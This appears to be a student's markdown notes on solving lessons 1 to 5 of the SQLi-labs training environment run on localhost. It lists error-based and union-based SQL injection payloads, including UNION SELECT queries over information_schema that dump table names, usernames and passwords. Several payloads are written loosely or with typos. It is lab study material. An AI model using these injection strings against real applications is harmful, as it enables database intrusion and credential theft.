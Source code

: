# sqli_labs
## lesson1
### Error-Based: Single Quotes,String
?id=1 or any other number gives the respective username and password, similar to the query: select * from TABLE where id=1;
In the url after trying some special cases, we find that odd number of single quotes breaks the query and also string input throwing error.
Error:  right syntax to use near ””) LIMIT 0,1′ at line 1.
?id=1′)–-+  : this gives us back the username and password. (here -- is used to comment out rest of the things).
Commonly used injections like ' OR '1'='1--
OR '1'='1' /*  in url after execution it would be like ?OR%20%271%27=%271%27%20/*
?id=-1' union select 1,2,database() --+
SELECT username,password from 'users' WHERE '?id'=0 OR 1=1; (here 1=1 is equivalent to true).
SELECT username,password from 'users' WHERE ?id=9 trying out different id no.s we get the desired output when id is 9.

## lesson2
### Error-Based: IntegerBased
when we give ?id=1- we see the error as right syntax to use near'LIMIT 0,1' at line 1 (query broke)
error that extra " and 'quotes are present which means that the input is enclosed in them.
Select * from TABLE where id = 1’ ;
so there is use of integer for the query
Select * from TABLE where id = (some integer value);
SELECT username,password FROM TableName WHERE id=1--;
if we comment out the id number as (-- is used to comment out the input): http://localhost/sqli-labs/Less-2/?id=1 -- 
we receive the username and password.

## lesson3
### Error-Based: Single quotes (string)
when we give ?id=1- we see the error as right syntax to use near ””) LIMIT 0,1′ at line 1 (query broke)
Select login_name, select password from table where id= (‘our input here’)
So again we inject the code with this ?id=1′) -–+'    
we get back the output username and password.

## lesson4
### Error-Based: Double quotes (string)
After some unsuccessful attempts, we perform an error-based double quotes attack
?id=1’’ injecting the code we can see a username and password.
we try to dump the database to retrieve some sensitive information. 
So here we use the union select command to dump the database like this: ?id=1’’) union select 1,2,3 –+
(here 1,2,3 is used since we assume 3 columns there, u can also try with 1,2)
Now we start mysql to dump database:
show databases;  -->to show databases
use security;  -->this helps to use the database security(which has important information)
show tables;  -->this helps to view the table, we can see four tables like users,emails,referers,uagents
We use system database, which is information_schema using the command: use information_schema;
See tables using "show tables;" command
Query : select table_name from information_schema, tables where table_schema = “security”;
inject the same query into the URL : ?id=1”) union select 1,table_name,3 from information_schema.tables where table_schema=’security’ --+
Query : ?id=1”) union select 1,group_concat(table_name)3 from information_schema.tables where table_schema=’security’ – -+  
(group together all the table names and dump it out as a string)
Query : ?id=1′ union select 1,group_concat(username),group_concat(password) from users –+

## lesson5
### Fixing the query without using comments
Error-based double quotes injection attack as shown below.
Query : ?id=1′ AND ‘2 OR ?id=3′ AND ‘4  
After injecting this type of code, the database always shows different usernames and passwords.
URL : ?-6′ union select 5,current_user,3 AND ‘1
We use this query for getting the current username.


